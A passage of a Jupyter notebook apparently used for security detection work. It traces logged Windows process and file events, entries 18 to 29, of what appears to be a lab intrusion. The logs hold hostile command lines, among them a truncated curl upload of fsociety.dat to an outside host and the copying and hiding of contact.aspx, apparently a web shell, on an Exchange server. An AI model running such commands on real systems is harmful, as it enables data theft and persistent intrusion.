   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:25.287] [INFO] Starting detection for Entry 18
[DEBUG] [03:29:25.287] [INFO] Entry 18: 2025-05-04 12:06:17, totem: 'net group SQL Admins /domain...'
[DEBUG] [03:29:25.287] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:25.288] [INFO] Time window filtering: 2025-05-04 12:03:17 to 2025-05-04 12:09:17
[DEBUG] [03:29:25.318] [INFO] Events after computer/eventid/time filter: 9
[DEBUG] [03:29:25.320] [INFO] Totem matches found: 2
[DEBUG] [03:29:25.321] [INFO] Multiple Type 1 matches - selected oldest withi



In [198]:
# Process Entry 18
entry_18_result = process_individual_entry(
    entry_id=18,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 19
📋 Entry Information:
   Command: nslookup 10.1.0.6...
   Finished Time: 2025-05-04 12:06:54.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: nslookup 10.1.0.6...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:26.214] [INFO] Starting detection for Entry 19
[DEBUG] [03:29:26.215] [INFO] Entry 19: 2025-05-04 12:06:54, totem: 'nslookup 10.1.0.6...'
[DEBUG] [03:29:26.215] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:26.215] [INFO] Time window filtering: 2025-05-04 12:03:54 to 2025-05-04 12:09:54
[DEBUG] [03:29:26.246] [INFO] Events after computer/eventid/time filter: 12
[DEBUG] [03:29:26.247] [INFO] Totem matches found: 2
[DEBUG] [03:29:26.248] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 12:06:54.4



In [199]:
# Process Entry 19
entry_19_result = process_individual_entry(
    entry_id=19,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 20
📋 Entry Information:
   Command: C:\Users\gosta\AppData\local\SystemFailureReporter\b.exe...
   Finished Time: 2025-05-04 12:08:11.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\Users\gosta\AppData\local\SystemFailureReporter\b.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:26.919] [INFO] Starting detection for Entry 20
[DEBUG] [03:29:26.919] [INFO] Entry 20: 2025-05-04 12:08:11, totem: 'C:\Users\gosta\AppData\local\SystemFailureReporter...'
[DEBUG] [03:29:26.919] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:26.919] [INFO] Time window filtering: 2025-05-04 12:05:11 to 2025-05-04 12:11:11
[DEBUG] [03:29:26.947] [INFO] Events after computer/eventid/time filter: 15
[DEBUG] [03:29:26.948] [INFO] Totem matches found: 2
[D



In [200]:
# Process Entry 20
entry_20_result = process_individual_entry(
    entry_id=20,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 21
📋 Entry Information:
   Command: curl -F "data=@C:\Users\gosta\AppData\Roaming\fsociety.dat" --header "X-Request-ID: gosta-hcxpbl" ht...
   Finished Time: 2025-05-04 12:08:37.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: curl -F "data=@C:\Users\gosta\AppData\Roaming\fsociety.dat" --header "X-Request-ID: gosta-hcxpbl" ht...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:27.845] [INFO] Starting detection for Entry 21
[DEBUG] [03:29:27.845] [INFO] Entry 21: 2025-05-04 12:08:37, totem: 'curl -F data=@C:\Users\gosta\AppData\Roaming\fsoci...'
[DEBUG] [03:29:27.845] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:27.845] [INFO] Time window filtering: 2025-05-04 12:05:37 to 2025-05-04 12:11:37
[DEBUG] [03:29:27.873] [INFO] Events after 



In [201]:
# Process Entry 21
entry_21_result = process_individual_entry(
    entry_id=21,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 22
📋 Entry Information:
   Command: copy  C:\Users\gosta\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx...
   Finished Time: 2025-05-04 12:09:28.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: copy  C:\Users\gosta\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:28.527] [INFO] Starting detection for Entry 22
[DEBUG] [03:29:28.527] [INFO] Entry 22: 2025-05-04 12:09:28, totem: 'copy C:\Users\gosta\AppData\Local\SystemFailureRep...'
[DEBUG] [03:29:28.527] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:28.527] [INFO] Time window filtering: 2025-05-04 12:06:28 to 2025-05-04 12:12:28
[DEBUG] [03:29:28.555] [INFO] Events after comp



In [202]:
# Process Entry 22
entry_22_result = process_individual_entry(
    entry_id=22,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 23
📋 Entry Information:
   Command: copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientA...
   Finished Time: 2025-05-04 12:10:30.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientA...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:28.998] [INFO] Starting detection for Entry 23
[DEBUG] [03:29:28.999] [INFO] Entry 23: 2025-05-04 12:10:30, totem: 'copy C:\Users\Public\contact.aspx \\10.1.0.6\C$\Pr...'
[DEBUG] [03:29:28.999] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:28.999] [INFO] Time window filtering: 2025-05-04 12:07:30 to 2025-05-04 12:13:30
[DEBUG] [03:29:29.029] [INFO] Events after 



In [203]:
# Process Entry 23
entry_23_result = process_individual_entry(
    entry_id=23,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 24
📋 Entry Information:
   Command: C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews...
   Finished Time: 2025-05-04 12:10:30.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:29.450] [INFO] Starting detection for Entry 24
[DEBUG] [03:29:29.450] [INFO] Entry 24: 2025-05-04 12:10:30, totem: 'C:\Program Files\Microsoft\Exchange Server\V15\Cli...'
[DEBUG] [03:29:29.450] [INFO] Searching for totem matches: EventID 11, Computer waterfalls.boombox.local
[DEBUG] [03:29:29.451] [INFO] Time window filtering: 2025-05-04 12:07:30 to 2025-05-04 12:13:30
[DEBUG] [03:29:29.497] [INFO] Events after computer/eventid/time filter: 68
[DEBUG] [03:29



In [204]:
# Process Entry 24
entry_24_result = process_individual_entry(
    entry_id=24,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 25
📋 Entry Information:
   Command: attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contac...
   Finished Time: 2025-05-04 12:11:36.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contac...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:29.738] [INFO] Starting detection for Entry 25
[DEBUG] [03:29:29.738] [INFO] Entry 25: 2025-05-04 12:11:36, totem: 'attrib +h \\10.1.0.6\C$\Program Files\Microsoft\Ex...'
[DEBUG] [03:29:29.738] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:29.739] [INFO] Time window filtering: 2025-05-04 12:08:36 to 2025-05-04 12:14:36
[DEBUG] [03:29:29.767] [INFO] Events after 



In [205]:
# Process Entry 25
entry_25_result = process_individual_entry(
    entry_id=25,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 26
📋 Entry Information:
   Command: "cmd.exe" /c whoami...
   Finished Time: 2025-05-04 12:11:59.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: "cmd.exe" /c whoami...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:30.354] [INFO] Starting detection for Entry 26
[DEBUG] [03:29:30.355] [INFO] Entry 26: 2025-05-04 12:11:59, totem: 'cmd.exe /c whoami...'
[DEBUG] [03:29:30.355] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:30.355] [INFO] Time window filtering: 2025-05-04 12:08:59 to 2025-05-04 12:14:59
[DEBUG] [03:29:30.384] [INFO] Events after computer/eventid/time filter: 27
[DEBUG] [03:29:30.386] [INFO] Totem matches found: 1
[DEBUG] [03:29:30.386] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:30.387] [INFO] Detection



In [206]:
# Process Entry 26
entry_26_result = process_individual_entry(
    entry_id=26,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 27
📋 Entry Information:
   Command: "cmd.exe" /c ipconfig /all...
   Finished Time: 2025-05-04 12:12:46.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: "cmd.exe" /c ipconfig /all...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:31.344] [INFO] Starting detection for Entry 27
[DEBUG] [03:29:31.345] [INFO] Entry 27: 2025-05-04 12:12:46, totem: 'cmd.exe /c ipconfig /all...'
[DEBUG] [03:29:31.345] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:31.345] [INFO] Time window filtering: 2025-05-04 12:09:46 to 2025-05-04 12:15:46
[DEBUG] [03:29:31.374] [INFO] Events after computer/eventid/time filter: 31
[DEBUG] [03:29:31.376] [INFO] Totem matches found: 1
[DEBUG] [03:29:31.376] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:31.



In [207]:
# Process Entry 27
entry_27_result = process_individual_entry(
    entry_id=27,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 28
📋 Entry Information:
   Command: "cmd.exe" /c netstat -an...
   Finished Time: 2025-05-04 12:13:41.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: "cmd.exe" /c netstat -an...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:32.288] [INFO] Starting detection for Entry 28
[DEBUG] [03:29:32.288] [INFO] Entry 28: 2025-05-04 12:13:41, totem: 'cmd.exe /c netstat -an...'
[DEBUG] [03:29:32.288] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:32.289] [INFO] Time window filtering: 2025-05-04 12:10:41 to 2025-05-04 12:16:41
[DEBUG] [03:29:32.317] [INFO] Events after computer/eventid/time filter: 24
[DEBUG] [03:29:32.318] [INFO] Totem matches found: 1
[DEBUG] [03:29:32.318] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:32.319] [



In [208]:
# Process Entry 28
entry_28_result = process_individual_entry(
    entry_id=28,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 29
📋 Entry Information:
   Command: C:\Windows\Temp\m64.exe...
   Finished Time: 2025-05-04 12:14:23.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\Windows\Temp\m64.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:33.250] [INFO] Starting detection for Entry 29
[DEBUG] [03:29:33.251] [INFO] Entry 29: 2025-05-04 12:14:23, totem: 'C:\Windows\Temp\m64.exe...'
[DEBUG] [03:29:33.251] [INFO] Searching for totem matches: EventID 11, Computer waterfalls.boombox.local
[DEBUG] [03:29:33.251] [INFO] Time window filtering: 2025-05-04 12:11:23 to 2025-05-04 12:17:23
[DEBUG] [03:29:33.279] [INFO] Events after computer/eventid/time filter: 55
[DEBUG] [03:29:33.280] [INFO] Totem matches found: 1
[DEBUG] [03:29:33.280] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:33.



In [209]:
# Process Entry 29
